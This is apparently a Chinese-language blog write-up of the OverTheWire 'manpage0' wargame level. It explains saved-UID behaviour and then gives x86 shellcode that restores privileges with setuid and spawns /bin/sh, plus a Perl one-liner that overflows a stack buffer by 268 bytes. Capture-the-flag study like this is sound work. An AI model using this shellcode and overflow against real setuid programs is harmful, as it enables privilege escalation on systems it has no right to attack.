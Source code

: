 ```yaml
---
title: manpage0
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

有2点：

1.  execve，如果ST_NOSUID没有设的话，新执行的程序的rid不变，eid会变如果suid设了，saved suid也会被保存为eid，这样我们就可以在之后用setuid来恢复
2.  setuid如果权限够了(root?)，就把2个id都设了；否则只设eid，rid和saved suid不变

于是还是溢出，不过shellcode中要先恢复权限 

{% highlight nasm %}
BITS 32
;setuid
xor ebx, ebx 
mov bx, 17001
xor eax, eax 
mov al, 23
int 0x80

xor eax, eax 
push eax 
mov edx, esp 
push 0x68732f2f
push 0x6e69622f ;/bin//sh
mov ebx, esp 
push eax 
push ebx 
mov ecx, esp 
mov al, 11
int 0x80
{% endhighlight %}

dest和返回地址距离是256+8+4=268，于是

<pre>$ /manpage/manpage0 `perl -e 'print "A"x268 . "\xd8\xd8\xff\xff"'`</pre>
